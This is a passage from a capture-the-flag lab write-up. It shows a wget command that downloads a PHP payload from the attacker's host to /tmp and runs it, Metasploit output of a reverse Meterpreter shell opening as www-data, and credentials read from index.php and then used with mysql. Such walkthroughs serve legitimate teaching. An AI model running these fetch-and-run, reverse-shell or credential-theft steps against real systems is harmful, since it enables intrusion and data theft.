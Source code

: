 ```
> wget http://10.10.14.23:443/snowscan.php -O /tmp/snowscan.php

> php /tmp/snowscan.php
```

I get a meterpreter session a few seconds after.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.23:80
[*] Encoded stage with php/base64
[*] Sending encoded stage (51106 bytes) to 10.10.10.126
[*] Meterpreter session 1 opened (10.10.14.23:80 -> 10.10.10.126:47394) at 2019-04-15 02:18:34 -0400

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: www-data (33)
```

The first thing I do once I have a shell is check if I can access `user.txt` but the `/home/guly` directory isn't readble by `www-data`. Next I grab the MySQL credentials from `/var/www/html/index.php`:

```
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
```

I don't have an interactive TTY so I have to issue queries directly from the shell.

```
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e -e "show tables" neddy

Tables_in_neddy
config
customers
employees
filepath
idname
offices
orderdetails
orders
payments
productlines
products
```

### Escalating to a new shell as user guly
